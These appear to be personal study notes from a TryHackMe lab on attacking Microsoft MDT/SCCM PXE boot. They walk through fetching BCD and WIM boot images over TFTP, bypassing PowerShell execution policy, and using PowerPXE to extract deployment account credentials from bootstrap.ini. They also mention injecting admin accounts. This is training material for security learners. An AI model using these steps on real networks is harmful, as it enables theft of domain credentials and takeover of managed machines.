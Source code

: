 ## MDT and SCCM
Microsoft Deployment Toolkit (MDT) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS). Large organisations use services such as MDT to help deploy new images in their estate more efficiently since the base images can be maintained and updated in a central location.

Usually, MDT is integrated with Microsoft's System Center Configuration Manager (SCCM), which manages all updates for all Microsoft applications, services, and operating systems. MDT is used for new deployments. Essentially it allows the IT team to preconfigure and manage boot images. Hence, if they need to configure a new machine, they just need to plug in a network cable, and everything happens automatically. They can make various changes to the boot image, such as already installing default software like Office365 and the organisation's anti-virus of choice. It can also ensure that the new build is updated the first time the installation runs.

SCCM can be seen as almost an expansion and the big brother to MDT. What happens to the software after it is installed? Well, SCCM does this type of patch management. It allows the IT team to review available updates to all software installed across the estate. The team can also test these patches in a sandbox environment to ensure they are stable before centrally deploying them to all domain-joined machines. It makes the life of the IT team significantly easier.

However, anything that provides central management of infrastructure such as MDT and SCCM can also be targeted by attackers in an attempt to take over large portions of critical functions in the estate. Although MDT can be configured in various ways, for this task, we will focus exclusively on a configuration called Preboot Execution Environment (PXE) boot.

# PXE Boot
Large organisations use PXE boot to allow new devices that are connected to the network to load and install the OS directly over a network connection. MDT can be used to create, manage, and host PXE boot images. PXE boot is usually integrated with DHCP, which means that if DHCP assigns an IP lease, the host is allowed to request the PXE boot image and start the network OS installation process. The communication flow is shown in the diagram below:
![](Pasted%20image%2020241114055228.png)

Once the process is performed, the client will use a TFTP connection to download the PXE boot image. We can exploit the PXE boot image for two different purposes:
- Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
- Perform password scraping attacks to recover AD credentials used during the install.

We will attempt to recover the deployment service account associated with the MDT service during installation for this password scraping attack. Furthermore, there is also the possibility of retrieving other AD accounts used for the unattended installation of applications and services.

## PXE Boot Image Retrieval
(Since DHCP is a bit finicky, we will bypass the initial steps of this attack. We will skip the part where we attempt to request an IP and the PXE boot preconfigure details from DHCP. We will perform the rest of the attack from this step in the process manually.)
![](Pasted%20image%2020241115003536.png)

The first piece of information regarding the PXE Boot preconfigure you would have received via DHCP is the *IP of the MDT server*. (In our case, you can recover that information from the TryHackMe network diagram)

The second piece of information you would have received was the *names of the BCD files*. These files store the information relevant to PXE Boots for the different types of architecture. (To retrieve this information, you will need to connect to this website: [http://pxeboot.za.tryhackme.com](http://pxeboot.za.tryhackme.com/).)
	![](Pasted%20image%2020241115003343.png)

Usually, you would use TFTP to request each of these BCD files and enumerate the configuration for all of them. However, in the interest of time, we will focus on the BCD file of the **x64** architecture. Copy and store the full name of this file. For the rest of this exercise, we will be using this name placeholder `x64{7B...B3}.bcd` since the files and their names are regenerated by MDT every day. Each time you see this placeholder, remember to replace it with your specific BCD filename.

With this initial information now recovered from DHCP (wink wink), we can enumerate and retrieve the PXE Boot image. We will be using our SSH connection on THMJMP1 for the next couple of steps, so please authenticate to this SSH session using the following:

```
ssh thm@THMJMP1.za.tryhackme.com   // password: Password1@
```

To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:
```markup
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```

*Note:*
	While you should make sure to cleanup you user directory that you created...remember when you are doing assessments to always perform cleanup.

1) The first step we need to perform is using TFTP and *downloading our BCD file to read the configuration of the MDT server*. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, *we need to be accurate when specifying files and file paths*. 
   Note: 
	   The *BCD files are always located in the /Tmp/ directory on the MDT server* *:)*
```markup
C:\Users\THM\Documents\Am0> tftp -i {THMMDT IP} GET "\Tmp\x64{39...28}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```
![](Pasted%20image%2020241115040733.png)

 2) With the BCD file now recovered, we will be using [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read its contents. Powerpxe is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the *Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file*:
```markup
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```
![](Pasted%20image%2020241115040637.png)

WIM files are bootable images in the Windows Imaging Format (WIM). *Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:*
```markup
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```
![](Pasted%20image%2020241115041020.png)


## Recovering Credentials from a PXE Boot Image
Now that we have recovered the PXE Boot image, we can exfiltrate stored credentials. It should be noted that there are various attacks that we could stage. We could inject a local administrator user, so we have admin access as soon as the image boots, we could install the image to have a domain-joined machine. If you are interested in learning more about these attacks, you can read this [article](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/). This exercise will focus on a simple attack of just attempting to exfiltrate credentials.

Again we will use *powerpxe to recover the credentials*, but you could also do this step manually by extracting the image and looking for the bootstrap.ini file, where these types of credentials are often stored. 
```markup
PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```
![](Pasted%20image%2020241115041227.png)